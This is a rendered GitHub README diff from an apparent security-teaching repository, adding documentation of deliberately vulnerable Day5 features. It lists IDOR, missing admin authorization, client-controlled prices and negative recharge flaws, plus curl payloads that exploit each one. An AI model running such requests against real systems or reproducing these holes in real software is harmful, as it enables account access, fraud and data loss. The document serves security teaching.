

Before and after one commit to wwj15680702015/Class01-security-repair, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
README: 更新Day5功能说明与权限提升漏洞测试指南

````diff
--- a/README.md
+++ b/README.md
@@ -11,6 +11,9 @@
 - 用户注册
 - 用户搜索
 - **用户头像上传**（含图片预览）
+- **个人中心**（查看资料、充值）
+- **商城系统**（商品列表、加入购物车）
+- **管理面板**（用户管理、删除用户）
 - 安全退出登录
 - 登录频率限制
 - CSRF 防护
@@ -154,6 +160,18 @@ Day1 提交（38f2e1f）保留了存在多个安全漏洞的原始版本，用
 | 7 | 无审计日志（低危） | `logging` 模块记录用户/IP/文件名/时间 |
 | 8 | 越目录写入（高危） | `Path.resolve()` + `startswith()` 边界校验 |
 
+### Day5 漏洞分析（提交 f23fb16）
+
+Day5 在保持所有功能不变的基础上，新增了个人中心、商城、管理面板功能。这些功能**故意保留了以下安全漏洞**用于教学实验：
+
+| 编号 | 漏洞类型 | 漏洞描述 | 路由 |
+|:----:|---------|---------|------|
+| 1 | 水平越权（IDOR） | 任意用户可通过修改 `user_id` 参数查看他人资料 | `/profile` |
+| 2 | 垂直越权 | 普通用户可直接访问管理面板，无需管理员权限 | `/admin` |
+| 3 | 垂直越权 | 普通用户可删除任意用户账号 | `/admin/delete-user` |
+| 4 | 业务逻辑漏洞 | 商品价格由客户端提交，可篡改为任意值 | `/cart` |
+| 5 | 业务逻辑漏洞 | 充值金额未校验正负，可提交负值扣减余额 | `/recharge` |
+
 ## 测试说明
 
 ### 启动测试
@@ -180,6 +198,24 @@ python app.py
 - 验证安全响应头存在
 - 验证登录限速（每分钟超过 5 次错误返回 429）
 
+### 漏洞测试 Payload（Day5 教学漏洞）
+
+```bash
+# 1. IDOR越权：用alice的cookie查看admin资料
+curl -b cookies.txt 'http://target:5000/profile?user_id=1'
+
+# 2. 垂直越权：普通用户访问管理面板
+curl -b cookies.txt 'http://target:5000/admin'
+
+# 3. 价格篡改：1分钱买iPhone
+curl -b cookies.txt -X POST http://target:5000/cart \
+  -d 'product_id=1&product_name=iPhone&price=0.01&quantity=1'
+
+# 4. 负值充值：扣减他人余额
+curl -b cookies.txt -X POST http://target:5000/recharge \
+  -d 'user_id=2&amount=-100'
+```
+
 ## Git 提交说明
 
 | 提交 | 说明 |
@@ -189,6 +225,7 @@ python app.py
 | `d56128e` | **Day3: 保存原始SQL注入漏洞版本** — 包含 f-string 拼接 SQL 的教学漏洞版本 |
 | `1045ac1` | **Day3: 完成SQL注入安全修复与实验报告** — 参数化查询、密码哈希 |
 | `8b894a6` | **Day4: 完成头像上传功能与文件上传安全修复** — 8 项文件上传漏洞修复 |
+| `f23fb16` | **Day5: 完成个人中心、管理面板、商城功能与权限提升漏洞分析** — IDOR越权、垂直越权、价格篡改、负值充值 |
 
 > **重要：** Day1 提交是有意保留的漏洞基线，包含大量高危安全隐患。**严禁**将其用于任何形式的生产环境或对外部署。
 
````
Also changed, not shown: other parts of README.md (+6 -3 lines).
